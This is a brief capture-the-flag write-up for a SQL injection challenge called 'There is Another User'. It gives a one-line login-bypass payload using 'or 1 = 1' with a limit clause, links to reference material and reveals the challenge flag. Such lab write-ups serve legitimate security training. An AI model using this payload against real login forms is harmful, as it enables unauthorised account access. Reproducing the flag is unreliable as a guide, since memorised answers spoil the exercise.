 # SQL Injection - 3 - There is Another User... (5)

## Challenge
SQL injection is probably one of the most common vectors of attack for poorly designed websites. 
This page is vulnerable to it. You can use username test and password test if you want to test 
the page before the injection.

## Steps
1. `' or 1 = 1 limit 2,2 -- `

## Documentation
- <a href="http://hwang.cisdept.cpp.edu/swanew/Text/SQL-Injection.htm">SQL Injection</a>

## Flag
`HF-ni3c5f9q5cpd8zc1f2ognd29xiex32uw`
